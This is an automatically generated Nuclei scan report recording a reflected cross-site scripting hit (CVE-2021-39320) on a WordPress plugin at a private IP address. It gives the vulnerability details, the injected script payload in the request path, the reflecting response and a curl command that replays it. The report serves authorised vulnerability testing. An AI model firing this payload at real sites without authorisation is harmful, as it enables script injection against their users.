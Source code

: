 ### WordPress underConstruction Plugin< 1.19 - Reflected Cross-Site Scripting (CVE-2021-39320) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-39320**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-admin/admin.php/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E/?page=under-construction

**Timestamp**: Wed Jun 8 20:22:22 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress underConstruction Plugin< 1.19 - Reflected Cross-Site Scripting |
| Authors | dhiyaneshdk |
| Tags | wordpress, xss, cve, cve2021, wp-plugin |
| Severity | medium |
| Description | The underConstruction plugin <= 1.18 for WordPress echoes out the raw value of `$GLOBALS['PHP_SELF']` in the ucOptions.php file. On certain configurations including Apache+modPHP, this makes it possible to use it to perform a reflected cross-site scripting attack by injecting malicious code in the request path. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-39320](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-39320) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-admin/admin.php/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E/?page=under-construction HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 234
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-admin/admin.php/</script><script>alert(document.domain)</script>/?page=under-construction</B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/49ae1df0-d6d2-4cbb-9a9d-bf3599429875
- https://nvd.nist.gov/vuln/detail/cve-2021-39320
- https://www.wordfence.com/vulnerability-advisories/#cve-2021-39320

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36' 'http://192.168.198.179:8080/wp-admin/admin.php/%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E/?page=under-construction'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)